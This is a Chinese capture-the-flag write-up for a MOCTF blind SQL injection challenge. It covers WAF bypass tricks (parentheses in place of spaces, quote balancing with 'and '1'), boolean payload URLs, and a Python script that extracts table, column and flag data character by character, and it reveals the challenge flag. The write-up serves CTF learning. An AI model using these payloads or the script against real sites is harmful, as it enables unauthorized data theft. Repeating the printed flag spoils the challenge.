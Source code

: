 ```yaml
---
layout: post
title: SQL盲注
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


MOCTF的一道sql盲注题目  
  
http://119.23.73.3:5004/?id=1  
  
>     首先，没有被过滤是正常显示。  
>     没有被过滤但是查询不到就是空白，比如?id=99999
>     waf过滤关键词，提示whatfuck

## ①   

我首先判断的是有没有用trim()函数，要知道trim函数和过滤是不一样的。  

区别很简单，举个例子。trim默认移除字符串左右两边的空格  

>      http://119.23.73.3:5004/?id=1（此处1后边有空格）
>      如果使用了trim()函数，也过滤掉了空格。
>      那么这个不会出waf的，而是会正常显示id=1的内容。
>      会让你以为空格并没有过滤，是因为trim函数把空格去掉后才用waf函数进行的判断。  

测试的方法很简单**?id=1 1**，让空格在里面就好了。  

发现过滤了空格，寻找能够代替空格的字符。  

>     %20 %09 %0a %0b %0c %0d %a0 %00 /**/    ()  

发现只有()没有被过滤。  

## ②
判断是整形注入还是字符型注入，?id=1-0，发现不是id=1的界面，不是整形注入  
  
## ③

判断id的保护是什么?首先猜测是引号，输入1'1，(这里为了排除trim函数的影响)，发现没有出现waf，但是会出现空白。所以是单引号保护，因为单引号没有被过滤，会匹配原来保护id的两个单引号的前一个，导致了有一了孤零零的单引号没有人和他配对，就会出错，什么也查不出来。  

##④

判断截断字符有没有被过滤，发现尝试%23，--+，--%20都会被过滤。  

所以考虑and '1这样绕过，匹配最后的那个'，不让他孤零零，有任何他匹配就不会出错。  

## ⑤   

判断其他的过滤字符  

>     union被过滤，无法使用联合查询
>     > < like regexp被过滤，但是=没有被过滤，between and 也没有被过滤。  
>     or被过滤，information这个一会再说，有点特殊。  
>     mid,ascii没有被过滤，逗号也没有被过滤。

## ⑥
判断逻辑  

>     http://119.23.73.3:5004/?id=1%27and(select(0))and%271
>     http://119.23.73.3:5004/?id=1%27and(select(1))and%271  

发现可以判断出来注入的逻辑，只要构造语句让select(0)和select(1)里面的1，0值出现就可以判断了。  

## ⑦   
脚本，py3

<pre><code>import requests

shiliu="0x20"
zuihou="0x7f"
i=1
while True:
    #http://119.23.73.3:5004/?id=1%27and(select(mid((select(database())),1,1))=%27m%27)and%271 #MOCTF
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(table_name))from(information_schema.tables)where(table_schema)='moctf')between("+shiliu+")and(0x7f))and%271"  #DO_Y0U_L1KE_LONG_T4BLE_NAME,NEWS
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(column_name))from(information_schema.columns)where(table_name)='do_y0u_l1ke_long_t4ble_name')between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    url="http://119.23.73.3:5004/?id=1%27and(select(ascii(mid((select(d0_you_als0_l1ke_very_long_column_name)from(do_y0u_l1ke_long_t4ble_name)),"+str(i)+",1)))between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    res=requests.get(url)
    #print(url)


#MOCTF{B1IND_SQL_1NJECTI0N_G0OD}

    if "Hello" not in res.text:
        i+=1
        x=hex(int(shiliu,16)-1)
        if '20' in x:
            break;
        print(x)
        zuihou = shiliu + zuihou.replace("0x","")



        shiliu="0x20"
        #shiliu=x+shiliu.replace("0x","")   #跑前三个的时候这个不能注释掉,跑最后一个得注释掉



    shiliu=str(hex(int(shiliu,16)+1))

</code></pre>  

数据库我是手动测试的，是moctf，然后剩下的，一开始偷了懒，没用ascii跑，结果flag大小写都提交不上，原因是flag有大写也有小写，数据库是对大小写不敏感的，用ascii就可以了  
  
第一个语句我没用脚本跑，自己用手试出来的。  
  
>     moctf{b1ind_SQL_1njecti0n_g0od}  
>     兄弟们不会做的就问啊，输出一下url，挨个看看怎么跑的，直接提交flag没啥用  


最后说一下那个or被过滤了，为什么information没有被过滤。    

information确实被过滤了，但是information只要加上其他为被过滤的字符，也不会被过滤。  

为此还去群里问了下，
  
出题人:Waf加了智能识别语义，information语境就不过滤，这样听起来会不会更牛逼